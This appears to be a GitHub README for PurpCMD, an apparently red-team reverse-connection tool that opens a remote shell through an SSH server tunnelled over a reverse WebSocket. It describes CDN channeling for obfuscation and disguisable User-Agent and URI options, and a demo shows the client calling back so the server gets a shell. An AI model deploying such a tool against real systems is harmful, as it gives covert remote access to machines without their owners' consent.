 # PurpCMD

Purpcmd operates by initiating a simple SSH server on the client side. Leveraging SSH has many improved features to work with remote terminals, such as enhanced interaction quality, window resizing, full duplex communications, and more. This type of approach tends to work better than using reverse shell, that use system features, synchronized sockets and IO, it will have limited capabilities. Purpcmd employs a reverse WebSocket connection to seamlessly synchronize the SSH connection with the server.

The communication is secure and very malleable. It can be channeled through Content Delivery Network (CDN) to enhance obfuscation and other security measures.

![img1](img/img1.png)


### Help Menu

```
Server usage: purpcmd server [options] ...
	-k configures the path to the private key.
	By default an embed key pair is used to authenticate the
	connection.
	Use "-k /path/to/id_rsa".

Client usage: purpcmd client [options] ...
	-ua defines the User-Agent HTTP header to use
	during the request.

	-p must be used to set the path to a public key.
	By default an embed key pair is used to authenticate the
	connection. If the server is using a custom private key,
	this option must be used to specify the pair.
	Use "-p /path/to/id_rsa.pub".

	-ps allows passing the public key right from the command
	line.
	Use "-ps 'ssh-rsa AAAAB3NzaC'".
	
Global Options:
	-a is the address to listen on or connect to.
	Use "-a 127.0.0.1:8080".
		
	-uri configures the URI where to connect or to receive 
	the websocket connection.
	Use "-uri /assets".

```

### 1. Start the server

```
go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
```

### 2. Execute the client

```
go run . client -a 0.0.0.0:8080
2024/02/17 01:10:32 Connecting to ws://0.0.0.0:8080/
2024/02/17 01:10:32 Key O+XvBDAEHzyN9s78Iy6iegk3vWT7hzQZsErg/2Y+Ehg= found.
2024/02/17 01:10:32 Client got shell
```

### 3. Use the server new shell

```
╰─$ go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
2024/02/17 01:10:32 Proxy connected 0.0.0.0:8080
Setting up STDIN
Setting up STDOUT
Setting up STDERR
call shell
farinap@xyz:~/go/src/PurpleCommand$ ls
LICENSE  README.md  agent  go.mod  go.sum  img  main.go  server  utils
farinap@xyz:~/go/src/PurpleCommand$
```
